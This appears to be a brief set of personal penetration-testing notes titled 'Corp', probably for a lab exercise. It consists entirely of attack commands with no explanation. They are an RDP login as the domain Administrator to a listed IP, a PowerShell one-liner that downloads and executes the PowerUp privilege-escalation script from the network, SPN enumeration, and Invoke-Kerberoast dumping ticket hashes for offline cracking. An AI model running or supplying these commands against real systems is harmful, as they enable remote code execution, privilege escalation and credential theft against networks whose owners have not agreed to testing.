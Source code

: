 # Corp

> Nashia Holloway | May 6th, 2020

## RDP

`xfreerdp /u:'corp\Administrator' /v:34.247.253.242`

## Powershell Download Stuff

`iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1')`

## Extract SPN Accounts

`setspn -T medin -Q */*`

## Invoke Kerberoast (Output Hashcat)

`Invoke-Kerberoast -OutputFormat hashcat | fl | Out-file -filepath <filepath\hash.txt>`
